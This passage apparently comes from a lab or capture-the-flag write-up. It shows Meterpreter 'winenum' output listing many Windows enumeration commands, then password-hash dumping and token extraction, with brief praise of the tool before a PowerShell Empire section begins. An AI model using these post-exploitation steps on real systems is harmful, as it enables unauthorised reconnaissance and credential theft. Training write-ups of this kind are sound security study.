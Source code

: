 ```bash
[*] 	running command ipconfig /all
[*] 	running command ipconfig /displaydns
[*] 	running command net view
[*] 	running command netstat -nao
[*] 	running command route print
[*] 	running command netstat -vb
[*] 	running command netstat -ns
[*] 	running command net accounts
[*] 	running command net share
[*] 	running command net group
[*] 	running command net group administrators
[*] 	running command net view /domain
[*] 	running command net localgroup
[*] 	running command net localgroup administrators
[*] 	running command net user
[*] 	running command netsh firewall show config
[*] 	running command tasklist /svc
[*] 	running command net session
[*] 	running command netsh wlan show drivers
[*] 	running command gpresult /SCOPE COMPUTER /Z
[*] 	running command netsh wlan show networks mode=bssid
[*] 	running command netsh wlan show interfaces
[*] 	running command netsh wlan show profiles
[*] 	running command gpresult /SCOPE USER /Z
[*] Running WMIC Commands ....
[*] 	running command wmic useraccount list
[*] 	running command wmic group list
[*] 	running command wmic service list brief
[*] 	running command wmic volume list brief
[*] 	running command wmic netlogin get name,lastlogon,badpasswordcount
[*] 	running command wmic netuse get name,username,connectiontype,localname
[*] 	running command wmic netclient list brief
[*] 	running command wmic logicaldisk get description,filesystem,name,size
[*] 	running command wmic nteventlog get path,filename,writeable
[*] 	running command wmic share get name,path
[*] 	running command wmic startup list full
[*] 	running command wmic rdtoggle list
[*] 	running command wmic product get name,version
[*] 	running command wmic qfe
[*] Extracting software list from registry
[*] Dumping password hashes...
[*] Hashes Dumped
[*] Getting Tokens...
[*] All tokens have been processed
[*] Done!
```

Meterpreter has one hell of a powerful post exploitation command, ```winenum``` which as you can see above, basically dumps almost all information you could want from a Windows machine from local accounts, local admin accounts, session information, firewall configs, ```ipconfig``` outputs, wireless interfaces, drivers for those interfaces, environment variables, dumped more password hashes, extracted tokens, the list keeps going on and on...

## PS (PowerShell) Empire

The point of this box was to get dirty with the PS Empire framework. Lets get started:

1) Which menu to we launch to access listeners?


